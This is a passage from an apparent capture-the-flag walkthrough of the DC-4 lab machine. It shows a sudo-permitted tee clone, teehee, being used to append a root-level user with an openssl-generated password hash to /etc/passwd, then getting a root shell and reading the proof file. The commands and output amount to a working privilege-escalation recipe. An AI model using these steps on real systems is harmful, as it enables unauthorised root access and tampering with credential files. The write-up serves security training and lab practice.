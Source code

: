```shell
[REDACTED]
jim@dc-4:~$ su charles
Password: 
charles@dc-4:/home/jim$ id
uid=1001(charles) gid=1001(charles) groups=1001(charles)
```

## Privilege Escalation


After executing the command: `sudo -l` we see that we can execute `/usr/bin/teehee` as `root`. If we run `strings` command on `/usr/bin/teehee` we will find the help menu of that binary. 

Then we can execute it with the `-a` option to append a new user with both GID and UID as 0 (as `root`) at `/etc/passwd`.

Before running `/usr/bin/teehee` we must generate a hash of a password (geobour98 in my case) with `openssl` in order to put it in `/etc/passwd`.


```shell
charles@dc-4:~$ sudo -l
Matching Defaults entries for charles on dc-4:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on dc-4:
    (root) NOPASSWD: /usr/bin/teehee
charles@dc-4:~$ strings /usr/bin/teehee
[REDACTED]
Try '%s --help' for more information.                                                              
Usage: %s [OPTION]... [FILE]...                                                                    
Copy standard input to each FILE, and also to standard output.                                     
  -a, --append              append to the given FILEs, do not overwrite                            
  -i, --ignore-interrupts   ignore interrupt signals                                               
  -p                        diagnose errors writing to non pipes                                   
      --output-error[=MODE]   set behavior on write error.  See MODE below                         
      --help     display this help and exit                                                        
      --version  output version information and exit                                               
MODE determines behavior with write errors on the outputs:                                         
  'warn'         diagnose errors writing to any output                                             
  'warn-nopipe'  diagnose errors writing to any output not a pipe                                  
  'exit'         exit on error writing to any output                                               
  'exit-nopipe'  exit on error writing to any output not a pipe
[REDACTED]
charles@dc-4:~$ openssl passwd geobour98
Warning: truncating password to 8 characters
GWIOrZOActC.A
charles@dc-4:~$ sudo /usr/bin/teehee -a /etc/passwd                                                
geobour98:GWIOrZOActC.A:0:0:::/bin/bash                                                                         
geobour98:GWIOrZOActC.A:0:0:::/bin/bash                                                                         
^C                                                                                                 
charles@dc-4:~$ cat /etc/passwd
[REDACTED]
geobour98:GWIOrZOActC.A:0:0:::/bin/bash
[REDACTED]
charles@dc-4:~$ su geobour98
Password: 
root@dc-4:/home/charles# id
uid=0(root) gid=0(root) groups=0(root)
root@dc-4:/home/charles# cat /root/proof.txt
[REDACTED]
```
